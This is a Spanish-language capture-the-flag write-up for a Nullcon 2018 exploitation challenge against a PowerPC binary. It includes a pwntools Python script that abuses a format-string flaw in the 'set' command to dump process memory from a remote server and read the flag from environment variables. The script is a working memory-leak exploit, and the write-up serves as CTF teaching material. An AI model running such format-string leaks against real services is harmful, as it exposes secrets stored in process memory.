




# CTF Nullcon 2018 - Exploiting 1

Exploitation Question 1 (200 pts)
```
Exploit the server at 35.170.14.27:9001
Flag is in env $PWNFLAG
```

```bash
# file pwn1-uhoh.bin
pwn1-uhoh.bin: ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=2dce6781d919e201114e4896b4e80e7fc4306dc2, stripped
```

Este binario esta compilado para una arquitectura PowerPC, lo que nos dificulta un poco su análisis.



El programa acepta 3 instrucciones distintas, *set*, *get* y *exit*. La instrucción *set* se construye con 2 parámetros y *get* con uno.



Una vez decompilado el código, observamos como la función *set* parece ser vulnerable a *format strings*. Utilizamos el siguiente código para extraer datos de la memoria.

```python
import binascii
from pwn import *

def get(i):
    r.sendline('set A %' + str(i) + '$x')
    r.recvuntil('> ').strip()
    r.sendline('get A')
    rec = r.recvuntil('> ').split('\n')
    value = rec[1]

    try:
        print "%d|%s|%s" % ( i, value, binascii.unhexlify(value) )
    except:
        print "%d|%s|" % ( i, value )


r = remote('35.170.14.27',9001)
r.recvuntil('> ').strip()

for i in range(380):
    get(i)
```

Extracción de memoria del proceso



En la memoria se observan las variables de entorno


Modificamos el script para concatenar y mostrar el flag:




Thanks to [@javierprtd](https://twitter.com/javierprtd)
